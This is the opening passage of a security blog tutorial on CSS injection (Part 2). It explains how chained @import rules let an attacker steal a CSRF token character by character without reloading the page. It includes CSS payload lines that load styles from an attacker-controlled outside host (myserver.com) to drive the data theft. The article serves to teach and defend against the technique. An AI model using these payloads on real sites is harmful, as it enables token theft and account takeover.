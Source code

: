 ```yaml
---
title: Stealing Data with CSS - CSS Injection (Part 2)
catalog: true
date: 2022-09-29 21:41:10
tags: [Security]
categories: [Security]
photos: /img/css-injection-2/cover-en.png
---
```


<img src="/img/css-injection-2/cover.png" style="display:none" loading="lazy">

In [Part 1](/2022/09/29/en/css-injection-1), we learned the basic principle of stealing data with CSS and successfully stole the CSRF token as a practical example using HackMD. This article will delve into some details of CSS injection and address the following issues:

1. Since HackMD can load new styles without refreshing the page, how can we steal the second character and beyond on other websites?
2. If we can only steal one character at a time, will it take a long time? Is this feasible in practice?
3. Is it possible to steal things other than attributes? For example, text content on a page or even JavaScript code?
4. What are the defense mechanisms against this attack?



## Stealing All Characters

As we mentioned in Part 1, the data we want to steal may change after refreshing the page (such as the CSRF token), so we must load new styles without refreshing the page.

The answer to this problem is given in [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf): [@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import).

In CSS, you can use `@import` to import other styles from external sources, just like `import` in JavaScript.

We can use this feature to create a loop that imports styles, as shown in the following code:

``` css
@import url(https://myserver.com/start?len=8)
```

Then, the server returns the following style:

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```
